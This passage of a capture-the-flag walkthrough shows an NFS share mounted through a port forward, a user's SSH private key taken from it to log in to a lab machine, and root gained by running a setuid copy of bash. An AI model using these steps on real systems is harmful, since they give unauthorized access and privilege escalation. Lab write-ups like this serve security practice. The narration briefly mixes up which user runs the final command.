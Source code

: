 ![image](https://user-images.githubusercontent.com/67465230/187019736-508eed7b-5a06-4371-bed8-214fa3c86807.png)

Now, that we have set up the port forward, let's make a directory in /tmp and mount the directory. Let's move into the directory and we can list the home directory and see the user flag,

```bash
mkdir mnt
sudo mount -t nfs4 localhost:/ mnt
cd mnt
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/187019743-693d144b-f74d-4c77-be68-7f97a36bbcba.png)

Listing the directory and there I saw a hidden ssh directory so I decided to move into it and there I see the pair of ssh keys which is of james user,

```bash
cd .ssh
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/187019750-5c4e904f-9065-43dc-bc39-aca3a747e1ca.png)

I assign the suitable permission for this private key of james user and then ssh into the machine and successfully got into the system,

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.59.70
```

![image](https://user-images.githubusercontent.com/67465230/187019761-4d01e5f1-ef3b-47b3-9378-2693145c0d4e.png)

I first tried to copy the `bash` binary from my Kali box to the NFS share, but it failed to execute on the target. I then tried to copy the version of bash to user `james`' home directory and it worked. On the target, as `james`, I first copied the `bash` binary to the home folder,

```bash
cp /bin/bash .
sudo chown root:root ./bash
sudo chmod +s ./bash
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/187019774-c5baf3e5-1c6d-48ab-9c7a-dd8288fafe40.png)

Let's make the whole directory have read-executable permissions, 

```bash
chmod +rx .
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/187019783-d20baa28-bd60-4887-9741-9ef1bda28e50.png)

Running this binary file from paradox user and we get the root access,

```bash
/home/james/bash -p
id
```

![image](https://user-images.githubusercontent.com/67465230/187019800-8be6ed87-5056-4265-b8d7-5f6f1e2d575f.png)

